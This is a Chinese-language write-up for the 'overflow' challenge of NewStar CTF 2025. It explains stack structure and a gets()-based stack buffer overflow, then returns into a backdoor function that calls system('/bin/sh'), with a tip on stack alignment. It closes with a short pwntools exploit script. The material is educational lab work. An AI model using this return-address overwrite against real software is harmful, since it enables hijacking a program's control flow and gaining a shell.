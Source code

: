 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2025"
---
```


# overflow

> [!INFO]
> 本题考查的是 栈溢出和对栈结构的理解

在本题开始之前，你需要先了解栈结构与栈溢出。

栈是一种典型的后进先出 <span data-desc>(Last in First Out)</span> 的数据结构，它的基本结构是栈顶<span data-desc>（rsp 寄存器的值）</span>和栈底<span data-desc>（rbp 寄存器的值）</span>。其操作主要有压栈<span data-desc> (push) </span>与出栈<span data-desc> (pop)</span> 两种操作；push 可以把寄存器里的值或者一个立即数压入栈，pop 则是把 rsp 寄存器<span data-desc>（也就是栈顶）</span>指向的值弹出给一个寄存器。

push 操作：

![push](/assets/images/wp/2025/week1/overflow_1.png)

pop操作：

![pop](/assets/images/wp/2025/week1/overflow_2.png)

> [!TIP]
> 以 64 位为例，对于函数调用栈来说，`[rbp-8]` 的位置会跟随一个 `return`，`return` 决定了函数的返回地址。

栈溢出漏洞：通过向栈中写入超出预期的数据，覆盖返回地址或其他关键数据，从而劫持程序的执行流

本题的 `try` 函数中有一个 `gets` 函数，这个函数不限制读入的长度，就会造成栈溢出。

![alt text](/assets/images/wp/2025/week1/overflow_3.png)

本题还有一个后门函数，那接下来思路就很清晰了，先填垃圾数据把栈填满，然后把 return 的位置写上我们的后门函数的地址就能顺利执行 `system("/bin/sh")`

![alt text](/assets/images/wp/2025/week1/overflow_4.png)

> [!TIP]
> 这里的返回地址不能直接填 `0x401200`，会造成栈不对齐的问题，填 `0x401201` 即可

下面附上 exp。

```python
from pwn import *
r = remote('ip', port)
#r = process('./overflow')
payload = b'A' * 0x108 + p64(0x401201)
r.sendline(payload)
r.interactive()
```
